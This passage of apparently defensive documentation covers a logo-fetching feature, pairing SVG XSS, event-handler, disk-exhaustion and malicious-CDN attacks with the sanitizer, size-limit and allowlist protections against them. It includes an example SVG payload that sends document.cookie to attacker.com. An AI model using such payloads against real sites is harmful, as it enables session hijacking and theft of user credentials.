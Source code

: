 ### 4. XSS via SVG
**Attack:**
```xml
<svg xmlns="http://www.w3.org/2000/svg">
  <script>fetch('https://attacker.com?cookie='+document.cookie)</script>
</svg>
```
**Prevention:** SVG sanitizer strips `<script>` tags

### 5. Event Handler XSS
**Attack:**
```xml
<svg xmlns="http://www.w3.org/2000/svg">
  <circle onclick="malicious()" r="50"/>
</svg>
```
**Prevention:** SVG sanitizer removes `onclick` and all `on*` attributes

### 6. Disk Space Exhaustion
**Attack:**
```
fetch logo from https://example.com/100GB-file.png
```
**Prevention:** Size limit (default 3MB) aborts download

### 7. Malicious CDN
**Attack:**
```
fetch logo from https://evil-cdn.com/trojan.svg
```
**Prevention:** Host allowlist (if configured) blocks untrusted domains

## Best Practices

### 1. Set Host Allowlist in Production
```bash
# .env.prod
SITEAGENT_LOGO_HOSTS=githubusercontent.com,cdn.jsdelivr.net
```
**Why:** Limits attack surface to trusted CDNs only.

### 2. Keep Default HTTPS Enforcement
```bash
# Don't set this unless you have a specific need
# SITEAGENT_LOGO_ALLOW_HTTP=1
```
**Why:** Plain HTTP can be intercepted or manipulated.

### 3. Monitor Logo Fetch Events
```python
# Check agent event logs
{
  "evt": "logo.fetch.ok",
  "file": "assets/logos/siteagent.png",
  "ctype": "image/png"
}

{
  "evt": "logo.fetch.warn",
  "err": "blocked non-public IP 127.0.0.1"
}
```
**Why:** Detect malicious attempts or misconfigurations.
